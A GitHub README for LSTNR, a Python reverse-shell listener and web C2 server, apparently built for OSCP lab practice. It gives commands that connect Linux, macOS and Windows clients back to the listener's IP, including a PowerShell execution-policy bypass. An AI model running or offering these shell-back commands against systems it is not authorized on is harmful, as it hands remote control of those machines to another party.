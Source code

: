 # LSTNR
Python webserver that receives shell connections from remote devices. 

Remote devices can be managed from a Command Line Interface (CLI)

Remote devices can be managed from the DeathStar webpage.

# DISCLAIMER
This is only for testing purposes, not intended for anything illegal. I was testing out ways to manage multiple connections while doing the OSCP labs. #Hobbies

# Web page - obsolete
<img width="1162" alt="Screenshot 2024-12-21 at 1 03 20 AM" src="https://github.com/user-attachments/assets/9145dc13-14d0-440c-9d00-9a60f547bbc5" />

# Download LSTNR

```git clone github.com/bwithe/LSNTR```

# USAGE: CLI
1. Start LSTNR
    - `python3 lstnr.py -p <PORT_TO_LISTEN>`

<img width="509" alt="Screenshot 2024-12-30 at 8 17 42 PM" src="https://github.com/user-attachments/assets/375e9059-e448-412c-8677-cac252d1da63" />

2. Have CLIENT connect to LSTNR
    - Linux / MacOS
      - `python3 client.py -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
      - `bash client.sh`
    - Windows
        - `powershell -ep bypass .\client.ps1 -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`


# USAGE: Web C2 server 
1. Start the server
    - `python3 lstnr-web.py`

2. Open link in web browser
    - `firefox 127.0.0.1:8000`
